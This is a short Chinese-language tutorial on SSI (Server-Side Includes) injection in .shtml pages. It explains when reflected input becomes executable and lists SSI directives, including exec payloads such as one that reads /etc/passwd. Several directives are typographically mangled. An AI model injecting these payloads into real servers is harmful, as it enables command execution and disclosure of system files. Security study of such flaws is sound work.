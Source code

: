 # SSI

(shtml漏洞)


SSI 注入全称Server-SideIncludes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。



## SSI介绍与利用

SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。


从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。


在很多业务中，用户输入的内容会显示在页面中。比如，一个存在反射型XSS漏洞的页面，如果输入的payload不是XSS代码而是SSI的标签，同时服务器又开启了对SSI的支持的话就会存在SSI漏洞。


从定义中看出，页面中有一小部分是动态输出的时候使用SSI，比如：


·       文件相关的属性字段


·       当前时间


·       访客IP


·       调用CGI程序


#####################################################################


怎么说呢，其实讲起来还挺简单的


<!--#exec cmd="命令"-->


这个漏洞依赖于服务器开启一个模式叫做注释行的写入


也就是比如一个HTML网页


我们可以写入注释


然后刚好这条注释实可以以某种方式进行代码执行的。


```plain
其余的话还有：
①显示服务器端环境变量<#echo>
本文档名称：
<!–#echo var="DOCUMENT_NAME"–>
现在时间：
<!–#echo var="DATE_LOCAL"–>
显示IP地址：
<! #echo var="REMOTE_ADDR"–>
②将文本内容直接插入到文档中<#include>
<! #include file="文件名称"–>
<!--#include virtual="index.html" -->
<! #include virtual="文件名称"–>
<!--#include virtual="/www/footer.html" -->
注：file包含文件可以在同一级目录或其子目录中，但不能在上一级目录中，virtual包含文件可以是Web站点上的虚拟目录的完整路径
③显示WEB文档相关信息<#flastmod><#fsize>(如文件制作日期/大小等)
文件最近更新日期：
<! #flastmod file="文件名称"–>
文件的长度：
<!–#fsize file="文件名称"–>
④直接执行服务器上的各种程序<#exec>(如CGI或其他可执行程序)
<!–#exec cmd="文件名称"–>
<!--#exec cmd="cat /etc/passwd"-->
<!–#exec cgi="文件名称"–>
<!--#exec cgi="/cgi-bin/access_log.cgi"–>
相当于在服务器端执行了所需要的代码，返回查找即可

```





